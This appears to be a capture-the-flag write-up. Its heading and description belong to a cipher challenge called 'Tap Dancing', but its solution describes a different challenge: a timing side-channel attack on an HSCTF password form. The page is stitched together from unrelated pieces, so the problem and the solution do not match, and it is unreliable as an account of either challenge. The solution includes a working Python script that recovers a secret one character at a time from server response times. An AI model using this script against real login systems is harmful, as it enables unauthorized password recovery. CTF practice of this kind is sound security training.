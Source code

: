 Tap Dancing
===========

**Points:** 25

**Description:** 
My friend is trying to teach me to dance, but I am not rhythmically coordinated! They sent me a list of [dance moves](cipher.txt) but they're all numbers! Can you help me figure out what they mean so I can learn the dance?

NOTE: Flag is not in flag format.

Solution
--------


It starts with a stupid guess. The description mentions connection speed, but
if testing with a random character in the submit form the site returns
“Incorrect Password” pretty quickly, really. So let's put in something longer.
“asdasdasd” also responds almost instantly. But entering the string “hsctf{”
creates a couple seconds of delay.

Hmm. It seems that the server is analyzing the passwords in such a way that
queries beginning with more of the flag take longer than queries with less of
the flag. Perhaps the backend is slowly comparing one character at a time, and
returning as soon as a mismatch is found. Or something to that effect&#8212;it
doesn't really matter.

This problem sort of reminded me of “A Simple Question” from picoCTF 2018, so I
reused some of my Python code from that question. My solve script is attached
below.

```python
#!/usr/bin/python2
# imyxh

import mechanize
import time

# init
br = mechanize.Browser()
br.open('https://networked-password.web.chal.hsctf.com/')
payl = 'hsctf{'

while 1:  # one iteration per char
    c = 48  # initial ASCII code

    while 1:  # guess char

        br.select_form(nr=0)
        attempt = payl + chr(c)
        br.form['password'] = attempt
        t0 = time.time()
        br.submit()
        resp = br.response().get_data()
        print('attempted char ' + chr(c) + ' with response time '
              + str(time.time()-t0))

        if c == 125:
            resp = raw_input('select character: ')
            payl += resp
            break

        c += 1

    print("CAUGHT: " + payl)
```

Yes, I know. It's Python 2. Blame the mechanize developers for not releasing a
Python 3 version of their library. But the essentials of that script are
summarized in a few steps:

1. define a payload variable `payl` that holds the characters of the flag that
   we know;
2. append ASCII characters to the payload one at a time, submitting the form
   and measuring the response time;
3. display the response times for each character to the console and allow the
   user to select a guess;
4. add the user's guess to the payload and repeat from step 2.

By the time we guess the `}` character, we'll have the entire flag. I definitely
could've made that script a lot cooler by automatically selecting a character
after it produced an outlying response time, but I was lazy and perfectly happy
with pushing buttons on my terminal.

